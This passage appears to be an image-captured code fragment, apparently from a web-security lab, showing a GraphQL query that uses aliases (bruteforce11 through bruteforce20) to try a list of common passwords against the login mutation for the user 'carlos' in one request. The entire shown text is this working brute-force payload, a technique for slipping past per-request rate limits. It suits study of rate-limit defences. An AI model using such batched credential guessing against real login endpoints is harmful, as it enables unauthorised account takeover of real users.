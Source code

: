 ```plain
    }


bruteforce11:login(input:{password: "baseball", username: "carlos"}) {
        token
        success
    }


bruteforce12:login(input:{password: "abc123", username: "carlos"}) {
        token
        success
    }


bruteforce13:login(input:{password: "football", username: "carlos"}) {
        token
        success
    }


bruteforce14:login(input:{password: "monkey", username: "carlos"}) {
        token
        success
    }


bruteforce15:login(input:{password: "letmein", username: "carlos"}) {
        token
        success
    }


bruteforce16:login(input:{password: "shadow", username: "carlos"}) {
        token
        success
    }


bruteforce17:login(input:{password: "master", username: "carlos"}) {
        token
        success
    }


bruteforce18:login(input:{password: "666666", username: "carlos"}) {
        token
        success
    }


bruteforce19:login(input:{password: "qwertyuiop", username: "carlos"}) {
        token
        success
    }


bruteforce20:login(input:{password: "123321", username: "carlos"}) {
        token
        success
    }


```